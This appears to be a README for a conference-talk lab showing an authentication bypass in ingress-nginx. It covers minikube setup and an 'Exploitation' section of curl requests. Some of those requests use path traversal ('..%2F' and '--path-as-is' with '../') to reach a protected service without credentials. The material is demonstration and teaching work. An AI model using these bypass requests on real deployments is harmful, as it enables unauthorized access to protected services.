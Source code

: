 # Presentation

From:

* BSides Krakow 2022
* The Hack Summit 2022

[Get presentation](Bypassing%20external%20authentication%20in%20ingress-nginx.pptx)

# Installation

* install minikube
* deploy ingress-nginx using helm
```
helm upgrade --install ingress-nginx ingress-nginx \
  --repo https://kubernetes.github.io/ingress-nginx \
  --namespace ingress-nginx --create-namespace --version 4.0.9
```
* apply kubernetes configuration: `kubectl apply -f app.yaml`
* forward ingress port: `kubectl port-forward service/ingress-nginx-controller -n ingress-nginx 8080:80`

### Optionally

If you would like to customize images, build them and load into minikube:

* build docker images:
  * `cd auth-service; docker build -t auth-service:0.0.4 .`
  * `cd protected-service; docker build -t protected-service:0.0.1 .`
  * `cd public-service; docker build -t public-service:0.0.1 .`
* push docker images into minikube:
  * `minikube image load auth-service:0.0.4`
  * `minikube image load protected-service:0.0.1`
  * `minikube image load public-service:0.0.1`

# Exploitation

To access public service: `curl -v http://127.0.0.1:8080/public-service/public -H "Host: app.test"` --> return 200

To access protected service: `curl -v http://127.0.0.1:8080/protected-service/protected  -H "Host: app.test"` --> return 401
To access protected service: `curl -v http://127.0.0.1:8080/protected-service/protected -H "X-Api-Key: secret-api-key" -H "Host: app.test"` --> return 200

To access protected service bypassing authentication: `curl -v http://127.0.0.1:8080/public-service/..%2Fprotected-service/protected  -H "Host: app.test"` --> return 200
To access protected service bypassing authentication: `curl --path-as-is -v http://127.0.0.1:8080/public-service/../protected-service/protected  -H "Host: app.test"` --> return 200
